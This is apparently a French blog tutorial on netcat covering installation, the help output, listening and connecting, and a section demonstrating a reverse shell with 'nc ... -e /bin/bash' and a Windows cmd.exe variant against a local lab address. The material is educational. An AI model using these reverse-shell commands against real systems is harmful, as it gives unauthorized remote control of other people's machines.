 ```yaml
---
title: Netcat, un couteau suisse réseau
author: Davistar
layout: post
permalink: "/network/netcat.html"
read_time: true
---
```

![Netcat](/techlovers/assets/image1netcat.jpg)

## Qu'est-ce que Netcat ?

Netcat (souvent abrégé en nc) est un utilitaire de réseau informatique permettant de lire et d'écrire sur des connexions réseau en utilisant TCP ou UDP. 
Netcat est conçu pour être un back-end fiable pouvant être utilisé directement ou facilement piloté par d'autres programmes et scripts. Parallèlement, il s'agit d'un outil de débogage et d'investigation réseau riche en fonctionnalités, car il peut générer pratiquement tout type de connexion dont l'utilisateur pourrait avoir besoin et dispose de nombreuses fonctionnalités intégrées.

Sa liste de fonctionnalités inclut l'analyse de port, le transfert de fichiers et l'écoute de port. Il peut également être utilisé comme porte dérobée.


## Installation de Netcat :

Netcat est tres simple d'installation:

### Installation Pour Linux :

{% highlight bash %}
$ sudo apt update && apt upgrade -y && apt install netcat -y
{% endhighlight %}

![installation](/techlovers/assets/image2netcat.png)

### Installation Pour Windows :

Lien de téléchargement => https://eternallybored.org/misc/netcat/

- extraire l'archive
- installation fini 
- optionel : pour ceux qui desire juste taper nc dans le terminal ajouter nc.exe dans l'environement de PATH windows


## Utilisation de netcat :

### Pour afficher l'aide de netcat

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo nc -h
[v1.10-41.1]
connect to somewhere:	nc [-options] hostname port[s] [ports] ... 
listen for inbound:	nc -l -p port [-options] [hostname] [port]
options:
	-c shell commands	as `-e'; use /bin/sh to exec [dangerous!!]
	-e filename		program to exec after connect [dangerous!!]
	-b			allow broadcasts
	-g gateway		source-routing hop point[s], up to 8
	-G num			source-routing pointer: 4, 8, 12, ...
	-h			this cruft
	-i secs			delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
	-l			listen mode, for inbound connects
	-n			numeric-only IP addresses, no DNS
	-o file			hex dump of traffic
	-p port			local port number
	-r			randomize local and remote ports
	-q secs			quit after EOF on stdin and delay of secs
	-s addr			local source address
	-T tos			set Type Of Service
	-t			answer TELNET negotiation
	-u			UDP mode
	-v			verbose [use twice to be more verbose]
	-w secs			timeout for connects and final net reads
	-C			Send CRLF as line-ending
	-z			zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').
{% endhighlight %}

### Pour passer netcat sous écoute :

> * -l = passe netcat en mode écoute
> * -v = pour rendre nectat plus verbeux
> * -p = pour specifier le port à écouter

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo nc -lvp 444
listening on [any] 444 ...
{% endhighlight %}

![listen](/techlovers/assets/image3netcat.png)


### Comment se connecter a une ip via netcat :

{% highlight bash %}
┌─[✗]─[davistar@parrot]─[~]
└──╼ $sudo nc <IP> <PORT>
{% endhighlight %}


### Comment prendre le contrôle d'un processus avec Netcat :

L'outil netcat permet d'effectuer des tâches pour le moins dangereuses même s'il ne represente aucun danger en lui même.

Nous allons voir comment prendre le contrôle du shell d'un système :

Tout d'abord, nous devons ecouter un port. Moi, je vais choisir le port 333.

Nous allons maintenant taper la commande pour ecouter notre port 333.

{% highlight bash %}
┌─[root@parrot]─[/home/davistar]
└──╼ #nc -lvp 333
listening on [any] 333 ...
{% endhighlight %}

On est maintenant sur écoute prêt à recevoir une connexion

Nous allons maintenant taper cette commande-ci pour se connecter à notre port avec un processus.

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo nc 192.168.1.70 333 -e "/bin/bash"
{% endhighlight %}

Pour prendre le shell de windows, faites ceci:

{% highlight bash %}
C:\Users\Davistar\Desktop > nc.exe 192.168.1.70 333 -e cmd.exe
{% endhighlight %}

Une fois cette commande entrée, vous devez recevoir cela sur le terminal sous écoute.

{% highlight bash %}
┌─[root@parrot]─[/home/davistar]
└──╼ #nc -lvp 333
listening on [any] 333 ...
192.168.1.70: inverse host lookup failed: Unknown host
connect to [192.168.1.70] from (UNKNOWN) [192.168.1.70] 51414
{% endhighlight %}

Cela signifie que le client est bien connecté à votre machine, maintenant on peut exécuter toutes les commandes du shell.

Exemple :

{% highlight bash %}
ps  
  PID TTY          TIME CMD
 7604 pts/1    00:00:00 sudo
 7605 pts/1    00:00:00 bash
 7606 pts/1    00:00:00 ps
{% endhighlight %}

{% highlight bash %}
$ ls

aquatone
Desktop
Documents
Images
Musique
Public
Téléchargements
Templates
video.ogv
Vidéos
wordlist
{% endhighlight %}

{% highlight bash %}
help
GNU bash, version 4.4.23(1)-release (x86_64-pc-linux-gnu)
Ces commandes de shell sont définies de manière interne. Saisissez « help » pour voir cette liste.
Tapez « help nom » pour en savoir plus sur la fonction qui s'appelle « nom ».
Utilisez « info bash » pour en savoir plus sur le shell en général.
Utilisez « man -k » ou « info » pour en savoir plus sur les commandes qui
ne font pas partie de cette liste.

Une astérisque (*) à côté d'un nom signifie que la commande est désactivée.

 job_spec [&]                            history [-c] [-d décalage] [n] ou hi>
 (( expression ))                        if COMMANDES; then COMMANDES; [ elif>
 . nom_fichier [arguments]               jobs [-lnprs] [jobspec ...] ou jobs >
 :                                       kill [-s sigspec | -n signum | -sigs>
 [ arg... ]                              let arg [arg ...]
 [[ expression ]]                        local [option] nom[=valeur] ...
 alias [-p] [nom[=valeur] ... ]          logout [n]
 bg [job_spec ...]                       mapfile [-d délim] [-n nombre] [-O o>
 bind [-lpvsPSVX] [-m keymap] [-f nomf>  popd [-n] [+N | -N]
 break [n]                               printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]       pushd [-n] [+N | -N | rép]
 caller [expr]                           pwd [-LP]
 case MOT in [MOTIF [| MOTIF]...) COMM>  read [-ers] [-a tableau] [-d delim] >
 cd [-L|[-P [-e]] [-@]] [rép]            readarray [-n nombre] [-O origine] [>
 command [-pVv] commande [arg ...]       readonly [-aAf] [nom[=valeur] ...] o>
 compgen [-abcdefgjksuv] [-o option] [>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] >  select NOM [in MOTS ... ;] do COMMAN>
 compopt [-o|+o option] [-DE] [nom ...>  set [-abefhkmnptuvxBCHP] [-o nom-opt>
 continue [n]                            shift [n]
 coproc [NOM] commande [redirections]    shopt [-pqsu] [-o] [nom_opt ...]
 declare [-aAfFgilnrtux] [-p] [nom[=va>  source nom_fichier [arguments]
 dirs [-clpv] [+N] [-N]                  suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid >  test [expr]
 echo [-neE] [arg ...]                   time [-p] pipeline
 enable [-a] [-dnps] [-f nomfichier] [>  times
 eval [arg ...]                          trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a nom] [commande [argume>  true
 exit [n]                                type [-afptP] nom [nom ...]
 export [-fn] [nom[=valeur] ...] ou ex>  typeset [-aAfFgilnrtux] [-p] nom[=va>
 false                                   ulimit [-SHabcdefiklmnpqrstuvxPT] [l>
 fc [-e ename] [-lnr] [premier] [derni>  umask [-p] [-S] [mode]
 fg [job_spec]                           unalias [-a] nom [nom ...]
 for NOM [in MOTS ... ] ; do COMMANDES>  unset [-f] [-v] [-n] [nom ...]
 for (( exp1; exp2; exp3 )); do COMMAN>  until COMMANDES; do COMMANDES; done
 function nom { COMMANDES ; } ou nom (>  variables - Noms et significations d>
 getopts chaineopts nom [arg]            wait [-n] [id ...]
 hash [-lr] [-p nomchemin] [-dt] [nom >  while COMMANDES; do COMMANDES; done
 help [-dms] [motif ...]                 { COMMANDES ; }

{% endhighlight %}

Voilà nous avons l'intégralité du shell.

![screen2](/techlovers/assets/image4netcat.png)